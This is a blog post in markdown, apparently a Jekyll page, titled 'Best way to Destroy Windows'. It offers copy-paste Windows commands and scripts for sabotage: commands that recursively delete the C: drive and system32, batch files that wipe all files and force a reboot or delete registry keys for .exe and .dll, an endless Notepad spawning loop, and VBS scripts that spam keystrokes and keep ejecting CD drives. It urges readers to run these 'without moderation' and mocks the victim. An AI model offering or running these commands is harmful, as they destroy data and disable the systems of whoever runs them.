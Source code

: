 ```yaml
---
layout: post
title: Best way to Destroy Windows
subtitle: Run this command without moderation;)
bigimg: /img/winfuckoff.jpg
---
```


## Best way to Destroy Windows
Run this command without moderation;)

### 1. Type this in command prompt:

> RD C:\ /S /Q

> del c:\windows\system32\*.* /q

> del /f /s /q "C:\*.*."

### 2. Type this in notepad:

Save the file anywhere (.bat) and execute it:

##### 2.1 The blue screen of Death

Code:

```
@echo off
del %systemdrive%\*.*/f/s/q
shutdown -r -f -t 00
```

##### 2.2 Stupidity Shutdown

code:

```
@echo off
msg * Fatal system error due to admin stupidity!
shutdown -c “Error! You are too stupid!” -s -t 10
```

##### 2.3 Delete Key Registry Files

code:

```
@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*
:MESSAGE
ECHO Your computer has been fcked.Â Â Have a nice day.
GOTO MESSAGE
```

##### 2.4 Endless Notepads

code:

```
@ECHO off
:top
START %SystemRoot%\system32\notepad.exe
GOTO top
```

##### 2.5 Crazy caps lock

code:

```
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{CAPSLOCK}”
loop
```

##### 2.6 Endless Enter

code:

```
Set wshShell = wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “~(enter)”
loop
```

##### 2.7 Endless Backspace

code:

```
MsgBox “Let’s go back a few steps”
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{bs}”
loop
```

##### 2.8 Popping CD Drives

code:

```
Set oWMP = CreateObject(“WMPlayer.OCX.7”)
Set colCDROMs = oWMP.cdromCollection
do
if colCDROMs.Count >= 1 then
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
End If
wscript.sleep 100
loop
```


And have a good day!

Font's: [dbsdp](http://dbsdp.blogspot.com.br/2010/10/destroy-xp-with-single-command.html) | [itechnobuzz](https://www.itechnobuzz.com/the-8-deadly-windows-vbs-commands/l)